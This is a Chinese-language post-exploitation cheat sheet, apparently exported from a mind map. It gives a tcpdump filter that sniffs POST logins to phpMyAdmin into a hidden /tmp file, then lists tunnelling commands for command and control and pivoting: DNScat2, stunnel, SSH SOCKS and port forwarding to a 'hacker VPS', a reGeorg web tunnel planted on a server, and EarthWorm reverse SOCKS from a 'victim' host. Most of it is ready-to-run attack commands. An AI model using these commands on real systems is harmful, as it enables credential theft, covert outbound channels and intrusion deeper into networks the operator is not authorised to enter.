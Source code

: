 	- 抓取POST表单

		- POST /phpMyAdmin/index.php
Host: x.x.x.x
		- # tcpdump -i eth0 -s 0 -A -vv 'tcp port 80 and (tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x504f5354)' -w /tmp/.Cache.pcap

### 建立隧道

- DNScat2-通过DNS隧道进行C&C通信
- 使用stunnel封装特定服务到https流量
- 使用httptunnel封装特定服务到http流量
- SSH代理及转发

	- 开启socks代理

		- ssh -qTfnN -D 1111 root@1.1.1.1
		- 输入1.1.1.1机器密码 本地利用proxychains等类似工具连接本地的1111端口的sock5连接 即可代理1.1.1.1的网络

	- 控制A、B机器，A能够访问B，且能出网，B能够访问C，但不能出网，A不能访问C

		- A机器执行

			- ssh -CNfg -L 2121:CIP:21 root@BIP
			- 输入BIP机器密码，访问A的2121端口即是访问CIP的21端口

	- 控制A机器，A能够访问B

		- A机器执行

			- ssh -CNfg -R 2121:BIP:21 root@hackervps
			- 输入黑客vps密码，访问黑客vps的2121端口即是访问BIP的21端口

- reGeorg

	- 根据网站支持的语言，把相应的tunnel.xx传到服务器上，访问tunnel.xx显示 Georg says, 'All seems fine'
	- 本地运行

		- python reGeorgSocksProxy.py -p 9999 -u http://1.1.1.1:8080/tunnel.xx
		- 利用proxychains等类似工具连接本地的9999端口的sock5连接即可代理1.1.1.1的网络

- EarthWorm

	- 受害者机器有外网ip并可直接访问

		- 把ew传到对方服务器上
		- ./ew -s ssocksd -l 8888
		- 本地利用proxychains等类似工具连接本地的对方服务器的8888端口的sock5连接即可代理对方的网络

	- 控制A机器，A能够访问B，通过A访问B

		- 在自己外网服务器上执行

			- ./ew -s rcsocks -l 1080 -e 8888

		- 对方服务器执行

			- ./ew -s rssocks -d yourvpsip -e 8888

		- 利用proxychains等类似工具可通过连接你的外网vps的1080 端口的socks5，即可代理受害者服务器的网络
